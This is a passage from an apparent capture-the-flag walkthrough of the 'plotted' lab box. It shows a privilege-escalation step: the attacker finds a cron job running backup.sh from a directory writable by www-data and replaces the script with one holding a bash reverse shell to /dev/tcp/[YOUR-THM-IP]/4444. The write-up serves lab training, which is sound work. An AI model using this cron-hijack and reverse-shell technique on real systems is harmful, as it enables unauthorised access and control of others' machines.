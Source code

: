   ```
  # |  |  |  |  |
  # *  *  *  *  * user-name command to be executed
  17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
  25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
  47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
  52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
  * *     * * *   plot_admin /var/www/scripts/backup.sh

  www-data@plotted:/var/www/scripts$ cat backup.sh 
  #!/bin/bash
  
  /usr/bin/rsync -a /var/www/html/management /home/plot_admin/tms_backup
  /bin/chmod -R 770 /home/plot_admin/tms_backup/management
  ```
  
- OK, we don't have access to edit the script but we have access to read/write in that whole directory.

  ```
  www-data@plotted:/var/www/scripts$ ls -al
  total 12
  drwxr-xr-x 2 www-data   www-data   4096 Oct 28  2021 .
  drwxr-xr-x 4 root       root       4096 Oct 28  2021 ..
  -rwxrwxr-- 1 plot_admin plot_admin  141 Oct 28  2021 backup.sh
  ```

- Now, we will create a fake script with a reverse shell and replace the original one with it. After that, start a listener and wait for cronjobs to run so you can get a connection.

  ```
  www-data@plotted:/var/www/scripts$ nano fake.sh
  Unable to create directory /var/www/.local/share/nano/: No such file or directory
  It is required for saving/loading search history or cursor positions.
  
  www-data@plotted:/var/www/scripts$ ls -al
  total 16
  drwxr-xr-x 2 www-data   www-data   4096 May 28 20:23 .
  drwxr-xr-x 4 root       root       4096 Oct 28  2021 ..
  -rwxrwxr-- 1 plot_admin plot_admin  141 Oct 28  2021 backup.sh
  -rw-rw-rw- 1 www-data   www-data     55 May 28 20:23 fake.sh
  www-data@plotted:/var/www/scripts$ cat fake.sh 
  #!/bin/bash
  
  bash -i >& /dev/tcp/[YOUR-THM-IP]/4444 0>&1
  
  
  www-data@plotted:/var/www/scripts$ mv backup.sh backup2.sh
  www-data@plotted:/var/www/scripts$ chmod +x fake.sh 
  www-data@plotted:/var/www/scripts$ mv fake.sh backup.sh
  www-data@plotted:/var/www/scripts$ ls -al
  total 16
  drwxr-xr-x 2 www-data   www-data   4096 May 28 20:23 .
  drwxr-xr-x 4 root       root       4096 Oct 28  2021 ..
  -rwxrwxrwx 1 www-data   www-data     55 May 28 20:23 backup.sh
  -rwxrwxr-- 1 plot_admin plot_admin  141 Oct 28  2021 backup2.sh
  ```
